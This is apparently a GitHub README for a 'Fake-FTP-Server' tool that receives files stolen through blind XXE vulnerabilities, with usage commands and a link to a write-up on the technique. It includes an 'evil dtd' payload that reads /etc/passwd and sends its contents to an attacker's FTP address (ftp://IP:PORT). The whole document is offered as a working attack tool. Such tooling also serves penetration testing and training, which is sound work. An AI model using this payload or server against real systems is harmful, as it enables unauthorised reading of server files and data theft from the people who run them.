

# Fake-FTP-Server
This is a fake ftp server to receive data when you exploit blind XXE vulnerabilities to read files.    
[原理： https://zoiltin.github.io/2023/11/22/%E7%9B%B2XXE%E4%B8%ADFTP%E5%8D%8F%E8%AE%AE%E7%9A%84%E5%88%A9%E7%94%A8/](https://zoiltin.github.io/2023/11/22/%E7%9B%B2XXE%E4%B8%ADFTP%E5%8D%8F%E8%AE%AE%E7%9A%84%E5%88%A9%E7%94%A8/)

### Usage:
```
python fake-ftp-server.py PORT output-file

python fake-ftp-server.py 1234 res.txt
```
The fake server will run on PORT.        
The program may use another port for auxiliary (default is 63568), if it is occupied, please change it by yourself!

The evil dtd is like:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'ftp://IP:PORT/%file;'>">
```
